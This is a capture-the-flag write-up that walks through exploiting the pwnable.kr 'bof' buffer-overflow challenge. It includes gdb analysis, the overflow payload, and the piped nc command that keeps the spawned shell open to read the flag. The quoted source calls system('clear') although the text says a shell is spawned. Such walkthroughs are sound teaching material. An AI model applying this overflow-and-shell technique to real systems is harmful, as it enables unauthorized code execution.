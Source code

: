 ﻿## To pwn: bof

### Question: 
>Nana told me that buffer overflow is one of the most common software vulnerability. 
Is that true?
>Download : http://pwnable.kr/bin/bof
Download : http://pwnable.kr/bin/bof.c
Running at : nc pwnable.kr 9000


### How did I pwn it?

1. I downloaded the sourcecode(**bof.c**) and executable(**bof**). Understanding the sourcecode will help us pwn it.

* Sourcecode:
	
		 #include <stdio.h>
		 #include <string.h>
		 #include <stdlib.h>
		 void func(int key){
	        char overflowme[32];
	        printf("overflow me : ");
	        gets(overflowme);       // smash me!
	        if(key == 0xcafebabe){
                system("clear");
	        }
	        else{
                printf("Nah..\n");
	        }
		}
		int main(int argc, char* argv[]){
	        func(0xdeadbeef);
	        return 0;
		}

* It is quite simple. **main** calls a function **func** with argument **0xdeadbeef**. 
* In **func**, 
	* There is a buffer **overflowme[32]**. 
	* **gets** is used, which means it does not check the length of string entered. 

* The input payload should be a in such a way that the **if** condition comes true, and we get the shell. 
* We have to overwrite the **key** value with **0xcafebabe**. 

2. **Pwning it** :

* Run the executable using  **gdb-peda**. 

* `gdb-peda$ b main`	: Breaking at main

* `gdb-peda$ b func` : Breaking at func

* `gdb-peda$ run`	

* Let us find out the **address** of **0xdeadbeef**. Have a look at the below image. Address = **0xffffcea0**.
![address_of_deadbeef](./images/address_of_deadbeef.png)

*  Objective is to overwrite **0xdeadbeef** with **0xcafebabe** at address **0xffffcea0**. 

* This is the disassembly of function **func** :

		Dump of assembler code for function func:
	   0x080484fb <+0>:	push   ebp
	   0x080484fc <+1>:	mov    ebp,esp
	   0x080484fe <+3>:	sub    esp,0x38
	   0x08048501 <+6>:	mov    eax,gs:0x14
	   0x08048507 <+12>:	mov    DWORD PTR [ebp-0xc],eax
	   0x0804850a <+15>:	xor    eax,eax
	   0x0804850c <+17>:	sub    esp,0xc
	   0x0804850f <+20>:	push   0x8048620
	   0x08048514 <+25>:	call   0x8048390 <printf@plt>
	   0x08048519 <+30>:	add    esp,0x10
	   0x0804851c <+33>:	sub    esp,0xc
	   0x0804851f <+36>:	lea    eax,[ebp-0x2c]
	   0x08048522 <+39>:	push   eax
	   0x08048523 <+40>:	call   0x80483a0 <gets@plt>
	   0x08048528 <+45>:	add    esp,0x10
	   0x0804852b <+48>:	cmp    DWORD PTR [ebp+0x8],0xcafebabe
	   0x08048532 <+55>:	jne    0x8048546 <func+75>
	   0x08048534 <+57>:	sub    esp,0xc
	   0x08048537 <+60>:	push   0x804862f
	   0x0804853c <+65>:	call   0x80483d0 <system@plt>
	   0x08048541 <+70>:	add    esp,0x10
	   0x08048544 <+73>:	jmp    0x8048556 <func+91>
	   0x08048546 <+75>:	sub    esp,0xc
	   0x08048549 <+78>:	push   0x8048635
	   0x0804854e <+83>:	call   0x80483c0 <puts@plt>
	   0x08048553 <+88>:	add    esp,0x10
	   0x08048556 <+91>:	nop
	   0x08048557 <+92>:	mov    eax,DWORD PTR [ebp-0xc]
	   0x0804855a <+95>:	xor    eax,DWORD PTR gs:0x14
	   0x08048561 <+102>:	je     0x8048568 <func+109>
	   0x08048563 <+104>:	call   0x80483b0 <__stack_chk_fail@plt>
	   0x08048568 <+109>:	leave  
	   0x08048569 <+110>:	ret    
		End of assembler dump.

* When I first looked at the disassembly, I was confused because there is **stack cookie** to protect the stack. But, it's presence did not hurt the exploit.

* Quickly moving the **<+39>**, where the argument for **gets** is pushed. The **starting address** of **overflowme** buffer is pushed. Let is make note of this address.
![address_of_buffer](./images/address_of_buffer.png)

* Address of **overflowme** buffer = **0xffffce6c**. 
* We know that Address of **key** where **0xcafebabe** has to be stored = **0xffffcea0**.
* Difference between those addresses = **0xffffcea0** - **0xffffce6c** = **52**.(It is always good to have a terminal with python interpreter opened in it. It comes in very handy for these calculations, generating the payload strings and more)
* Let us look at the stack for more clarity. `gdb-peda$ x/20xw 0xffffce6c`
![stack_trace](./images/stack_trace.png)
* From the above image, it is clear that payload length = **16 * 3 + 4 + 4** bytes.
* The intel architecture is a **little-endian** arch. So, 
	* **Payload**: **'a' * 52 + '\xbe\xba\xfe\xca'**

* You can also see the stack cookie there, which will get corrupted by "aaaa" of the payload. But it does not matter because, we are getting the shell before the stack cookie is checked. The code which checks the cookie(**xor    eax,DWORD PTR gs:0x14**) is never executed.
![stack cookie](./images/stack_cookie.png)

* In fact, no instructions from **<+70>** is executed. That is because,**system()** would run a new process. Till that new process terminates, system() won't return. As it doesn't return(till the spawned shell is alive), no instructions after that are executed.

3. Final step.

* I tried this out on the local executable and then the remote.

		(python -c "print 'a' * 52 + '\xbe\xba\xfe\xca'" ; cat) | ./bof
		whoami
		adwaith-os
* It succeeded. Tried it on the remote one.
	
		(python -c "print 'a' * 52 + '\xbe\xba\xfe\xca'" ; cat ) | nc pwnable.kr 9000

* **GAME OVER!** 
![pwned it](./images/pwned_it.png)

### FLAG: daddy, I just pwned a buFFer :)

-------------------------------------

**PS**: 

1. I spent a lot of time on finding **cat** will help me execute commands properly on the remote shell. This is roughly what I did to figure that out.

* I exploited the local executable,before going to the remote one.
	
	* I did not get a shell. It did not print **Nah..**, So , I was pretty sure **0xdeadbeef** was overwritten by **0xcafababe** , but I did not get the shell. Or, probably shell was spawned, but as soon as it got spawned, it used to get terminated. I got output like this.
![exploit_success_no_shell](./images/exploit_success_no_shell.png)
	
	* I tried with remote also, I had the same problem. 
	
	* I wanted to investigate this. So, I wrote [this](./code_samples/code1.c) small program, if **system()** spawns a shell when this program is run. It spawned a shell! Have a look at this.
![code1.c shell spawning](./images/code1.c_shell_spawning.png)

	* After searching about this on internet, i found [this](https://stackoverflow.com/questions/43294227/hijacking-system-bin-sh-to-run-arbitrary-commands?utm_medium=organic&utm_source=google_rich_qa&utm_campaign=google_rich_qa) stackoverflow answer, which solves our problem.
	
>If you control stdin : 
>What you'll need to do is connect stdin to something that will, when read, provide a source of commands **before** invoking that code.

* From the stackoverflow page, i came to a conclusion that the shell was spawned, it has nothing to execute, instantly it terminates. 

* We have to stop it from terminating by using the above fact. We have to connect stdin to something(I feel, it is a command), which when read by the shell executes commands from stdin. 

* I executed **bof** like this.

		$ (python -c "print 'a' * 52 + '\xbe\xba\xfe\xca'" ; echo "qwerty") | ./bof
		/bin/sh: 1: qwerty: not found
		*** stack smashing detected ***: ./bof terminated
		overflow me : Aborted (core dumped)
 
 * I understood that, whatever you echo, it gets echoed to the spawned shell, and shell tries to execute it. 
 * I want the shell to read the contents in the flag file. So, the payload is
 
		 $ (python -c "print 'a' * 52 + '\xbe\xba\xfe\xca'" ; echo "/bin/cat flag") | ./bof
		/bin/cat: flag: No such file or directory
		*** stack smashing detected ***: ./bof terminated
		overflow me : Aborted (core dumped)

* The echo command is echoing the text inside "" which is executed by the shell. 
* The command which continuously takes input and can give that text to shell is **cat** (It is like **echo** in a for loop, and we can give the **command** we want). 

* I tried it out and it worked.

2. First, when I input the payload without **cat**, there was no sign of a shell being spawned. On my local machine, I replaced **system("/bin/sh") with many other commands like system("**ls**"), system("**clear**"). They all were executed and segfault occured.

3. I thought I was not able to get a shell because i felt there is some propety of **stack cookie** I did not know. So, I searched for the official research paper and read it. Amazing technique to stop stack smashes.
[Link to the paper](https://github.com/adwait1-G/Malware-Analysis/blob/master/Resources/memory_corruption_vulnerabilities/Stackguard.pdf)


